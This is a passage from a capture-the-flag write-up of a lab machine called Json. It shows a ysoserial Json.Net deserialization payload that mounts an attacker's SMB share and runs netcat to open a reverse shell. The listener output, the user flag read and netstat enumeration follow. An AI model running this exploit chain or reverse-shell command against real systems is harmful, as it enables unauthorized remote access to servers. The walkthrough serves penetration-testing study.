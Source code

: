 This shows I can execute commands.

### Shell

I’ve got my CommandoVM set up with `C:\share` such that a user, dummy, can
access it. `nc64.exe` is in the share, so I’ll just have Json connect to the
share and run `nc` from there:

    
    
    PS > ysoserial.exe -g WindowsIdentity -f Json.Net -c "net use \\10.10.14.10\share /u:dummy dummy & \\10.10.14.10\share\nc64.exe -e cmd.exe 10.10.14.10 443" -o base64
    ew0KICAgICAgICAgICAgICAgICAgICAnJHR5cGUnOiAnU3lzdGVtLlNlY3VyaXR5LlByaW5jaXBhbC5XaW5kb3dzSWRlbnRpdHksIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwg...[snip]...
    

I’ll drop that into Repeater, and submit. I get a shell:

    
    
    PS > nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.158] 64526
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    c:\windows\system32\inetsrv>whoami
    json\userpool
    

And from there, I can access `user.txt`:

    
    
    c:\Users\userpool\Desktop>type user.txt
    34459a01************************
    

## Priv #1: userpool –> superadmin [full disk access]

### Enumeration

If I check the listening ports on Json, I’ll see what I found with the `nmap`,
with one addition listening on localhost:

    
    
    c:\>netstat -ano
    
    Active Connections
    
      Proto  Local Address          Foreign Address        State           PID
      TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       660
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       548
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       368
      TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       704
      TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       732
      TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       284
      TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       456
      TCP    0.0.0.0:49157          0.0.0.0:0              LISTENING       1588
      TCP    0.0.0.0:49158          0.0.0.0:0              LISTENING       464
      TCP    10.10.10.158:139       0.0.0.0:0              LISTENING       4
      TCP    10.10.10.158:49159     10.10.14.10:445        ESTABLISHED     4
      TCP    10.10.10.158:49162     10.10.14.10:443        ESTABLISHED     2636
      TCP    127.0.0.1:14147        0.0.0.0:0              LISTENING       660
    ...[snip]...
    